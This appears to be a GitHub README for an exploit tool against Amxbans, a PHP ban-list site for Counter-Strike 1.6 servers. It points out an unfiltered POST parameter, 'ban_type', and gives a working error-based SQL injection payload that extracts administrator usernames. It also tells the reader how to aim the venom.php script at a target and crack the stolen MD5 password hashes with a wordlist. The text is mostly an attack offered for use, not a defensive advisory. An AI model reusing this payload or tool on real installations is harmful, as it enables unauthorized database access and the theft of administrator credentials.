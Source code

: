 
# Short info
<p> Amxbans is an website for the Counter-Strike 1.6 banlists </p>
<p> It works like -> Admin gives you ban, and all information about ban are appears on the website </p>

 

# Explanation
<img src="explanation.png"  height="400" width="600">

<p> Look on the image where code block section are selected with red rectangle.
There are defined bunch of variables , and all these variables are filtered with the sql_safe function </p>
<br>
<p> SQL_SAFE source</p>
include/functions.inc.php LINE 80
```
function sql_safe($value) {
	if (get_magic_quotes_gpc()) $value=stripslashes_recursive($value); //function in config.inc.php
	return mysql_real_escape_string($value);
} 
```
- [1] get_magic_quotes_gpc() = Checks configuration in php.ini,  if this feature
is avaliable then it wiil escape all  single-quote, double quote, backslash and NULs 
- [2] stripslashes_recursive($value) = All data which will passed in $value will be filtered and slashes will be stripped.
- [3] sql_safe function will return with mysql_real_escape_string which is the mysql function used against sql injection attacks.

# Vulnerability
<p>As you see all the requests are fileter except one which is the </p>
```
$type = $_POST["ban_type"];
``
<p>so that means that we can pass whatever we want in the $_POST request and it will executed in the database</p>
<p>For example into the $_POST["ban_type"] we can pass sql query like below</p>
```
"'+(1 AND extractvalue(rand(),concat(0x3a,(SELECT  username  FROM `amx_webadmins` WHERE ID > 0  LIMIT 2,1))))+'"
``
<p>and it will return Username from the amx_webadmins</p>


# Usage
- [1] Open venom.php and set the target on line 40
- Experimental = You can uncomment ```restore_hash($password);``` on the 67 line
then import code from the db.sql and your wordlist into the mysql server,
and you will be able to use your password cracking wordlist for md5 hash from the your server.
```
php venom.php
```
<img src="screen.png"  height="400" width="600">